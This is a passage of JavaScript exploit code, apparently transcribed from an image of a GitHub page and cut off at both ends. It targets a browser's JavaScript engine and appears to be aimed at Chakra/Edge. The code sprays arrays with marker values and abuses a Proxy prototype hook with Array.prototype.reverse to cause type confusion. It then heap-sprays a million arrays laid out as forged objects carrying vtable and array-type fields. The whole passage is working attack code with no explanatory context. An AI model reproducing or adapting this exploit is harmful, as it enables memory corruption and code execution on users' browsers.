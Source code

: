 ```
0x55555555,0x66666666,0x77777777,0x7fffffff,
0x31337,0x31337,0x31337,0x31337, 
0x31337,0x31337,0x31337,0x31337
);
karr2["cccc"] = 0x0;
karr2["dddd"] = arrtype;
karr2["eeee"] = 0x5a6b7c8d; // search sig
karr2["ffff"] = 0x13371337;
karr2["gggg"] = 0x13371338;
karr2["hhhh"] = 0x13371339;
karr2["jjjj"] = 0x1337133a;
karr2["kkkk"] = 0x1337133b;
karr2["1xxx"] = 0x1337133c;
karr2["2xxx"] = 0x1337133d;
karr2["3xxx"] = 0x1337133e;
karr2["4xxx"] = 0x1337133f;
karr2["5xxx"] = 0x0;
karr2["6xxx"] = 0x0;
karr2["7xxx"] = 0x0;
karr2["8xxx"] = 0x0;
karr2["9xxx"] = 0x0;
karr2["axxx"] = 0x0;
karr2["bxxx"] = 0x0;
karr2["cxxx"] = 0x0;
var karr3 = new Array(
0x7f7f7f7f,0x22222222,0x33333333,0x44444444,
0x55555555,0x66666666,0x77777777,0x7fffffff,
0x31337,0x31337,0x31337,0x31337, 
0x31337,0x31337,0x31337,0x31337
);
var karr4 = new Array(
0x11111111,0x22222222,0x33333333,0x44444444,
0x55555555,0x66666666,0x77777777,0x7fffffff,
0x31337,0x31337,0x31337,0x31337, 
0x31337,0x31337,0x31337,0x31337
);
var fdv = new DataView(new ArrayBuffer(8));
var evilarr2 = new Array(console.log);
evilarr2.length = karr.length;
evilarr2.__proto__ = new Proxy({}, {getPrototypeOf:function(){return karr;}});
evilarr2.__proto__.reverse = Array.prototype.reverse;
evilarr2.reverse();
var l = evilarr2[4];
defrag_arr = null;
CollectGarbage(); // not working??? 
//gc();
var scount2 = 0x10000;
var count2 = 0x100000;
var arrc2 = [];
for(var i=0;i&lt;count2 ;i++) {
arrc2.push([0, 0x12345678, 0x66666666, 0x66666666, 
0, 1, 2, 3, 
0, 1, 2, 3, 
0, 1, 2, 3, 
0, 1, 2, 3, 
0x66666600, 0x66666601, 0x0, arrtype,
0x66666604, 0x66666605, 0x66666606, 0x66666607,
0x66666608, 0x66666609, 0x6666660a, 0x6666660b,
0x6666660c, 0x6666660d, 0x6666660e, 0x6666660f,
0x66666610, 0x66666611, 0x66666612, 0x66666613,
0x66666614, -2147483646, vtable, arrtype,
0x1234, 0x30005, 0x1234, l,
l, l, arrtype, arrtype,
```